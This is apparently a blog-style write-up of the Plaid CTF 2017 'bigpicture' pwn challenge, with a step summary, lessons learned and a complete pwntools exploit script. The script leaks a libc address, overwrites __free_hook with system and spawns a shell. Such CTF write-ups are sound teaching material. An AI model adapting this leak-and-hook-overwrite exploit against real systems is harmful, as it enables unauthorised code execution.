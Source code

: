 ```yaml
---
title: "BigPicture | Plaid CTF 2017"
tags: ["pwn", "stack overflow"]
points: 200
solves: 67
---
```


I wasn't able to solve this challenge during the CTF, but I decided read a writeup and try again! In this post I'll share what I learned.

## Solution summary

I based my exploit on this [bigpicture writeup](https://amritabi0s.wordpress.com/2017/04/24/plaid-ctf-2017-bigpicture-write-up). The write up explains everything in more detail, go read it!

The exploit steps were:
1. Find the `libc offset` in relation to our buffer
2. Find the `libc base` address by leaking some value in the libc data section which contains a pointer to somewhere else in the libc (I used `__memalign_hook`)
3. Overwrite `__free_hook` with a pointer to `system`
4. Write `"/bin/sh\x00"` in the buffer (since the free is going to be called on that buffer)
5. Execute the `quit` command and the `free(buf)` call should instead call `system("/bin/sh")` and spawn a shell


## What I learned for the next CTF
1. If we allocate a large enough chunk, that chunk will not be on the heap section, but instead the malloc will call `mmap` and (at least for this case) the address will be **relative to the LIBC_BASE address**, allowing you to find where the libc is in relation to the chunk allocated.
2. I also learned that you can find the libc base address by looking at some pointers in the libc data section, (I assumed it was possible, but had never tried it before)
3. As I had previously learned the libc hooks (malloc_hook, free_hook..) are a great way to redirect code execution if you find a way to overwrite them

# Exploit
```python
#!/usr/bin/python
from pwn import *

TESTING_LOCAL = True

if TESTING_LOCAL:
    # Libc offsets
    __memalign_hook_OFFSET = 0x398ae0
    __free_hook_OFFSET     = 0x39a788
    SYSTEM_OFFSET          = 0x3f460

    # Ofsets related to the buffer
    LIBC_OFFSET_TO_BUF = -0x497010
    __free_hook_OFFSET_TO_BUF     = LIBC_OFFSET_TO_BUF + __free_hook_OFFSET
    __memalign_hook_OFFSET_TO_BUF = LIBC_OFFSET_TO_BUF + __memalign_hook_OFFSET
    __memalign_hook_content_TO_LIBC_OFFSET = 0x7c240
else:
    pass

def go():
    if TESTING_LOCAL == True:
        p = process("./bigpicture")
    else:
        p = remote("bigpicture.chal.pwning.xxx", 420)

    WIDTH  = 1024
    HEIGHT = 1024
    p.sendlineafter("big? ", "%d x %d" % (WIDTH, HEIGHT))

    def get_val(offset):
        return [offset/HEIGHT, offset%HEIGHT]

    def plot(x, y, c):
        p.sendlineafter(">", " %d , %d , %c " % (x, y, c), )

    def leak_byte(offset):
        val = get_val(offset)
        plot(val[0], val[1], "\x00")
        res = p.recvuntil("\n", timeout = 2)
        if "overwriting" not in res:
            return "\x00"
        else:
            return res.split("overwriting ")[1].split("!")[0]

    def write_byte(offset, c):
        val = get_val(offset)
        plot(val[0], val[1], c)

    # Check if the offset is write, by checking whether we find the string "ELF" at that location
    check_if_we_got_libc = leak_byte(LIBC_OFFSET_TO_BUF+1) + leak_byte(LIBC_OFFSET_TO_BUF+2) + leak_byte(LIBC_OFFSET_TO_BUF+3)
    assert check_if_we_got_libc == "ELF"
    log.success("Found libc base at offset: %s" % hex(LIBC_OFFSET_TO_BUF))

    leaked_memallign_content = leak_byte(__memalign_hook_OFFSET_TO_BUF+0) + leak_byte(__memalign_hook_OFFSET_TO_BUF+1) + \
                               leak_byte(__memalign_hook_OFFSET_TO_BUF+2) + leak_byte(__memalign_hook_OFFSET_TO_BUF+3) + \
                               leak_byte(__memalign_hook_OFFSET_TO_BUF+4) + leak_byte(__memalign_hook_OFFSET_TO_BUF+5)
    leaked_memallign_content = u64(leaked_memallign_content.ljust(8, "\x00"))
    LIBC_BASE = leaked_memallign_content - __memalign_hook_content_TO_LIBC_OFFSET

    # Leak meamallign_hook content so we can locate the LIBC_BASE
    log.info("Found memallign_hook content equals " + hex(leaked_memallign_content))
    assert LIBC_BASE & 0xfff == 0 # Ensure the last 12bits are 0. If not it surely is not the libc base.
    log.success("Found libc base at " + hex(LIBC_BASE))

    SYSTEM_ADDR = LIBC_BASE + SYSTEM_OFFSET
    log.info("SYSTEM at: " + hex(SYSTEM_ADDR))

    # Ovewrite the __free_hook with system and confirm it worked
    SYSTEM_ADDR_packed = p64(SYSTEM_ADDR)
    write_byte(__free_hook_OFFSET_TO_BUF+0, SYSTEM_ADDR_packed[0])
    write_byte(__free_hook_OFFSET_TO_BUF+1, SYSTEM_ADDR_packed[1])
    write_byte(__free_hook_OFFSET_TO_BUF+2, SYSTEM_ADDR_packed[2])
    write_byte(__free_hook_OFFSET_TO_BUF+3, SYSTEM_ADDR_packed[3])
    write_byte(__free_hook_OFFSET_TO_BUF+4, SYSTEM_ADDR_packed[4])
    write_byte(__free_hook_OFFSET_TO_BUF+5, SYSTEM_ADDR_packed[5])
    write_byte(__free_hook_OFFSET_TO_BUF+6, SYSTEM_ADDR_packed[6])
    write_byte(__free_hook_OFFSET_TO_BUF+7, SYSTEM_ADDR_packed[7])

    leaked_free_hook = leak_byte(__free_hook_OFFSET_TO_BUF+0) + leak_byte(__free_hook_OFFSET_TO_BUF+1) + \
                       leak_byte(__free_hook_OFFSET_TO_BUF+2) + leak_byte(__free_hook_OFFSET_TO_BUF+3) + \
                       leak_byte(__free_hook_OFFSET_TO_BUF+4) + leak_byte(__free_hook_OFFSET_TO_BUF+5)
    leaked_free_hook = u64(leaked_free_hook.ljust(8, "\x00"))
    assert leaked_free_hook == SYSTEM_ADDR
    log.success("Successfully written free_hook with system's addr")

    for i, c in enumerate("/bin/sh"):
        write_byte(i, c)

    p.sendline("quit")
    p.clean()
    p.sendline("echo HELLO")
    assert p.recvuntil("HELLO") == "HELLO"
    log.success("We got a shell ;)!")

    p.interactive()

go()
```